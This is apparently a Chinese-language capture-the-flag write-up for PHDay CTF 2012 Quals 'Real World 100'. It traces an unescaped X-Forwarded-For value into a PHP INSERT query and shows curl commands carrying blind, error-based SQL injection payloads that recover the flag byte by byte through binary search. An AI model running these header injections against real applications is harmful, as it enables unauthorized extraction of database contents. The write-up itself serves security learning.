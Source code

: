 ```yaml
---
title: PHDay CTF 2012 Quals Real World 100
author: fqj
layout: post
permalink: /phday-ctf-2012-quals-real-world-100/
categories:
  - CTF
  - writeup
---
```

此题就是一个web应用，让你获取flag。有代码提供。

思路分析：

首先这是一个MVC分层不错的php应用。

首先看Models：

在models/News.php中，有这样一段代码

这段代码在发表评论的时候被调用

models/News.php:

    public function addComment($id, $data)
    {
        $sql = "INSERT INTO `comments` SET "
             . "`news_id` = " . (int)$id . ", "
             . "`username` = " . $this->db->quote($data['username']). ", "
             . "`text` = " . $this->db->quote($data['text']). ", "
             . "`date_posted` = NOW(), "
             . "`ip` = INET_ATON('" . $data['ip'] . "')";
    
        $this->db->query($sql);
    }
    

大家看到ip的字段，并没有转义，看起来是有希望可以注入的。

接下来，看到$data['ip']的来源是：

library/Micro/Http/Request.php文件中：

    public function getClientIp($checkProxy = true)
    {
        if ($checkProxy && $this->getServer('HTTP_CLIENT_IP') != null) {
            $ip = $this->getServer('HTTP_CLIENT_IP');
        } else if ($checkProxy && $this->getServer('HTTP_X_FORWARDED_FOR') != null) {
            $ip = $this->getServer('HTTP_X_FORWARDED_FOR');
        } else {
            $ip = $this->getServer('REMOTE_ADDR');
        }
    
        return $ip;
    }
    

可见，就是先检查HTTP请求header中的CLIENT&#95;IP然后检查X&#95;FORWARDED_FOR，如果都不存在就用远端的地址。

那么HTTP请求中CLIENT&#95;IP和FORWARDED&#95;FOR都是可以注入的地方。我就用X&#95;FORWARDED&#95;FOR了

由于这个是INSERT语句，无法获知查找出来的内容，于是只能通过INSERT语句的成功与否（网页返回200或者500）来判断了。

首先一些简单的测试可以发现，ip一列的有not null的属性，所以说只要让INET_ATON的返回值为NULL页面就会错误。

那么首先第一测试就是找出表名，乱猜得到表名为flags

    curl "http://ctf.phdays.com:1411/news/1/add-comment"  -d "username=&text=" -H "X_Forwarded_For: ' + (SELECT * FROM flags);" 
    

然后猜列书，可以用二分法，在SELECT语句后用ORDER BY 列号，找到最大的不会出错的列号就是flags表的列数。

发现只有一列。

然后猜列名，把*改成你要猜的列名，出错就是不存在，猜得列名是flag。

然后猜行数，通过加LIMIT X, 1，X为整数就可以了。发现只有1行。

这是一个一行一列的表。

接下来就是关键了，由于是INSERT语句无法获知查询的结果，所以只能根据查询是否有结果来逐步解决。

首先用二分法确定值有多长，二分的方式是：

    $ curl "http://ctf.phdays.com:1411/news/1/add-comment"  -d "username=luke&text=sun3" -H "X_Forwarded_For: ' + (SELECT * FROM flags WHERE length(flag, 32) <= ));" 
    

将32换成其他的数来猜，利用二分法，找到最小的不会出错的数，便是长度。

接下来二分内容，需要逐字节二分，原理同上，下面贴出一个示例的请求，

    $ curl "http://ctf.phdays.com:1411/news/1/add-comment"  -d "username=luke&text=sun3" -H "X_Forwarded_For: ' + (SELECT * FROM flags WHERE ord(substring(flag, XXX, 1)) <= XXX));"
    

其中两个XXX分别是要猜第几个字节（1-32）和猜的值的最大值。找到最小的不出错的猜值，就是结果。然后算出二分出的ascii码对应出的字符（串），结果是我也不记得结果是啥了。
